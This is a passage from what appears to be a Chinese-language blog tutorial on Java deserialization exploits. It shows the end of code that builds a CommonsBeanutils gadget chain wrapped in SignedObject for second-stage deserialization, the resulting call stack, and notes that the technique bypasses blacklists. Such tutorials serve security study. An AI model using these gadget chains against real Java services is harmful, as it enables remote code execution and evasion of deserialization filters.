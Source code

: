 ```java
        priorityQueue.add(&#34;2&#34;);
        setFieldValue(beanComparator, &#34;property&#34;, string);
        setFieldValue(priorityQueue, &#34;queue&#34;, new Object[]{object, null});
        return priorityQueue;
    }
}
```

构造过程和上面相似，不在赘述，茯苓在这里直接给出调用栈

```java
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethod:2116, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1267, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:808, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:884, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:464, PropertyUtils (org.apache.commons.beanutils)
compare:163, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:722, PriorityQueue (java.util)
siftDown:688, PriorityQueue (java.util)
heapify:737, PriorityQueue (java.util)
readObject:797, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

#### 小结

对于 rome 来说，二次反序列化多用于目标不出网的情况（当然也可以用于绕过黑名单）

而 CB 这条，唯一作用就是绕过黑名单了吧

这是正常的CB链

![image-20220810102847849](./Zets/index/image-20220810102847849.png)
